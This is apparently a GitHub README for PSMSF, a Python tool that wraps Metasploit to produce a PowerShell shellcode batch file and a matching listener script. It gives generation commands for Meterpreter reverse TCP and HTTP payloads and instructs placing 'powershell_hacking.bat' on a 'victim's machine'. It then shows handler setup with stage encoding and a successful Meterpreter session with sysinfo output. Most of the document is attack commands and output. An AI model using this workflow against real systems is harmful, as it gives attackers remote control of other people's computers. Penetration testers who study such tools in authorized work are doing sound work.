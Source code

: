 ## PSMSF

**PSMSF** attempts to generate shellcode used in cmd console with [**Metasploit-Framework**](https://github.com/rapid7/metasploit-framework/). If you are similar to windows cmd console, you can use the results in different areas.

```
psmsf [master●] python psmsf.py
[+]
     ######
      #     #  ####  #    #  ####  ######
       #     # #      ##  ## #      #
        ######   ####  # ## #  ####  #####
         #            # #    #      # #
          #       #    # #    # #    # #
           #        ####  #    #  ####  #

[+] Everything is now generated in two files, ex:
    powershell_hacking.bat - shellcode can be executed in cmd console.
                           - Usage: cmd.exe /c powershell_hacking.bat
    powershell_msf.rc      - msfconsole resource script.
                           - Usage: msfconsole -r powershell_msf.rc

[+] python psmsf.py windows/shell/reverse_tcp 192.168.1.100 8443
[+] python psmsf.py windows/meterpreter/reverse_tcp 192.168.1.100 8443
[+] python psmsf.py windows/meterpreter/reverse_http 192.168.1.100 8443
```

### **Requirement**

If you use [**Kali Linux**](https://www.kali.org), Install [**Metasploit-Framework**](https://www.metasploit.com/) with the command:

```
$ sudo apt-get install metasploit-framework
```


### **Usage**

Everything is now generated in two files,

```
psmsf [master●] python psmsf.py windows/meterpreter/reverse_tcp 192.168.1.101 8443
[+] Everything is now generated in two files, ex:
    powershell_hacking.bat - shellcode can be executed in cmd console.
                           - Usage: cmd.exe /c powershell_hacking.bat
    powershell_msf.rc      - msfconsole resource script.
                           - Usage: msfconsole -r powershell_msf.rc

[+] create msfconsole resource script
[+] create powershell shellcode command
```

**Victim**

Please put the file **powershell_hacking.bat** to the victim's machine, and execute the shellcode with command.

```
cmd.exe /c powershell_hacking.bat
```

**Attacker**

Starts a **metasploit-framework** listeners,

```
psmsf [master●] msfconsole -r powershell_msf.rc

# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v4.11.11-dev-95484c8                 ]
+ -- --=[ 1521 exploits - 884 auxiliary - 259 post        ]
+ -- --=[ 437 payloads - 38 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

[*] Processing powershell_msf.rc for ERB directives.
resource (powershell_msf.rc)> use exploit/multi/handler
resource (powershell_msf.rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (powershell_msf.rc)> set LHOST 192.168.1.101
LHOST => 192.168.1.101
resource (powershell_msf.rc)> set LPORT 8443
LPORT => 8443
resource (powershell_msf.rc)> set ExitOnSession false
ExitOnSession => false
resource (powershell_msf.rc)> set EnableStageEncoding true
EnableStageEncoding => true
resource (powershell_msf.rc)> exploit -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.1.101:8443
[*] Starting the payload handler...
msf exploit(handler) >
```

If you run **powershell_hacking.bat** on victim's machine, a new session will be created:

```
msf exploit(handler) > jobs

Jobs
====

  Id  Name                    Payload                          LPORT
  --  ----                    -------                          -----
  0   Exploit: multi/handler  windows/meterpreter/reverse_tcp  8443

msf exploit(handler) >
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (958029 bytes) to 192.168.1.101
[*] Meterpreter session 1 opened (192.168.1.101:8443 -> 192.168.1.101:64656) at 2016-02-20 17:46:01 +0800

msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : SEC
OS              : Windows 7 (Build 7600).
```

## References

https://github.com/trustedsec/unicorn
